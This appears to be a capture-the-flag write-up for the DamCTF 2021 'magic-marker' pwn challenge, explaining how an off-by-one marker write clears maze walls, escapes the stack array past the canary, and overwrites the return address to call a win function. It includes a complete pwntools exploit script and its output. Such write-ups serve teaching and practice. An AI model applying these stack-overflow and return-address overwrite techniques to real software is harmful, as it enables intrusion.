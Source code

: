 ```yaml
---
layout: post
title:  "[DAMCTF] Magic-marker"
date:   "2021-11-07"
categories: PWN
author: Eurus
---
```


This is the output of checksec over the ELF of this challenge.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

First of all we can see that the program perform a string compare of the input with the string ```jump up and down``` 

```c
...
while ( 1 ){
    fgets(v5, 32, stdin);
    if ( !strcmp(v5, "jump up and down\n") )
        break;
    puts("I'm not sure I understand.");
}

puts(""Oh no! The ground.....  way out...\n")
play_maze();
```

The function ```play_maze()``` handle the 'Game', a random generated maze that has no exit.

```c
 char maze[51208]; // [rsp+10h] [rbp-C848h]
 
 ...

puts("This room has exits to the ");
maze_data = *(_DWORD *)&maze[1280 * line + 28 + 32 * column];
if ( (maze_data & 8) != 0 ){
  puts("North");
  maze_data = *(_DWORD *)&maze[1280 * line + 28 + 32 * column];
}
if ( (maze_data & 4) != 0 ){
  puts("East");
  maze_data = *(_DWORD *)&maze[1280 * line + 28 + 32 * column];
}
if ( (maze_data & 2) != 0 ){
  puts("South");
  maze_data = *(_DWORD *)&maze[1280 * line + 28 + 32 * column];
}
if ( (maze_data & 1) != 0 )
  puts("West");
if ( maze[1280 * line + 32 * column] )
  printf("On the wall is written: %s\n", &maze[1280 * line + 32 * column]);
printf("\nWhat would you like to do? (w - go north, a - go west, s - go south, d - go east, x - write something, m - show map, q - give up): ");
```

From the dump above (placed into the play_maze function) we can see that the maze is placed in the stack into an array of size 51208 byte. 
Each cell of the maze is stored into the array and the cell is of size 32 byte and the cell has a structure like this:

```text

cell:                          
                               
[-WALL-STRING----------------|FLAGS]

FLAGS: last nibble of cell and store
       where the wall are placed:
       1 = No wall
       0 = Wall

       0001 = West  free
       0010 = South free
       0100 = East  free
       1000 = North free

maze:
    [cell-1, cell-2, ... , cell-(40*40) ]

```

If we make the calculations we can see that ```40 * 40 * 32 = 51200``` and so the array is 8 bytes biggher than the maze.
When we move inside the maze basicaly we move the pointer to the array maze.

In the game we have a magic marker. We can use it with the x option. This is the code that write to the wall.

```c
puts("Your magnificently magestic magic marker magically manifests itself in your hand. What would you like to write?");
fgets(&maze[1280 * line + 32 * column], 33, stdin); // 1280 == 40*32 (cell in a row)
```
We can see that with the magic marker we can write over the last nibble of the cell that contain the wall data. 
So we can erase walls ang go where we want.

```python
pyl_clear_wall = p32(0)*7+p32(0xff)
```

by writing ```pyl_clear_wall``` we can erase all the wall from the maze and we can go also out of the maze (climbing the stack).

```
STACK OF play_maze

-000000000000C848 maze            db 51208 dup(?)
-0000000000000040 canary          dq 8 dup(?)             ; char
+0000000000000000  r

last cell of the maze]---8B---[canary]---8B---[-rbx--][-rbp--][-r12--][-r13--][-r14--][-r15--][-rip--]
                     |                               |                               |                
                     ^                               ^                               ^
                     cell[40*40+1]                   cell[40*40+2]                   cell[40*40+3]
```

we can see that if we have an rbx that permit us to go on East and West we can jump over the canary without
touch it and than continue util we can overwrite the rip saved into the stack.

Since PIE is not enabled this is easy. But where we can jump ? 
The organizers were so kind to give us a feature that prints out the flag!

```c
unsigned win(){
  ...
  puts("Congratulations! You escaped the maze and got the flag!");
  fd = fopen("flag", "r");
  fgets(str_tmp, 100, fd);
  puts(str_tmp);
  fclose(fd);
  ...
}
```
So the plan is easy! reach the bottom right of the maze find an rbx value that permit us to jump to East and West
without touching the canary, then jump again untill we reach the r15 recister saved into the stack and write with 
our magic marker a little ropchain to return into the win function.

This is the exploit.

```python
from pwn import *

context.binary = elf = ELF('./magic-marker')

p = remote('chals.damctf.xyz', 31313)
#p = elf.process()



p.sendlineafter(b'?\n',b'jump up and down')

p.sendlineafter(b'): ',b'm')

map_start = []
for i in range(0,81):
	map_start.append(str(p.recvline()[:-1])[2:-2])

line = ''
line_ind = 0
for i in range(0,81,2):
	if '*' in map_start[i+1]:
		line_ind = int(i/2)
		line = map_start[i+1]
		break 

cell = int((line.find('*')-2)/4)
print(cell)

pyl_clear_wall = p32(0)*7+p32(0xff)

for i in range(int(cell), 39):
	p.sendlineafter(b'): ',b'x')
	p.recvline()
	p.sendline(pyl_clear_wall)
	p.sendlineafter(b'): ',b'd')

for i in range(line_ind, 39):
	p.sendlineafter(b'): ',b'x')
	p.recvline()
	p.sendline(pyl_clear_wall)
	p.sendlineafter(b'): ',b's')

log.success('OOOK in 40:40 now!')

# here  corner down right
ret_g =  next(elf.search(asm('ret')))
win_payload = p64(0)+p64(ret_g)+p64(elf.sym.win)

p.sendlineafter(b'): ',b'x')
p.recvline()
p.sendline(pyl_clear_wall)
p.sendlineafter(b'): ',b'd')

log.info('Now out of the maze')
log.info('Praying!')

p.sendlineafter(b'): ',b'd')
p.sendlineafter(b'): ',b'x')
p.recvline()
p.sendline(pyl_clear_wall)
p.sendlineafter(b'): ',b'd')
p.sendlineafter(b'): ',b'x')
p.recvline()
p.sendline(win_payload)

p.sendlineafter(b'): ',b'a')
p.sendlineafter(b'): ',b'a')
p.sendlineafter(b'): ',b'a')

log.info('Back in this maze, shit! I quit!')
p.sendlineafter(b'): ',b'q')
dump = p.readall()
dump = str(dump).split('\\n')
log.success(dump[-3])

```

this is the output!
```text
(.pwn) eurus@node-03:~/Documenti/my_writeup/damctf-2021/magic_marker$ python3 expl.py 
[*] '/home/eurus/Documenti/my_writeup/damctf-2021/magic_marker/magic-marker'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chals.damctf.xyz on port 31313: Done
15
[+] OOOK in 40:40 now!
[*] Now out of the maze
[*] Praying!
[*] Back in this maze, shit! I quit!
[+] Receiving all data: Done (11.82KB)
[*] Closed connection to chals.damctf.xyz port 31313
[+] dam{m4rvellOU5lY_M49n1f1cen7_m491C_m4rker5_M4KE_M4zE_M4n1PuL471oN_M4R91N4llY_M4L1c1Ou5}
```

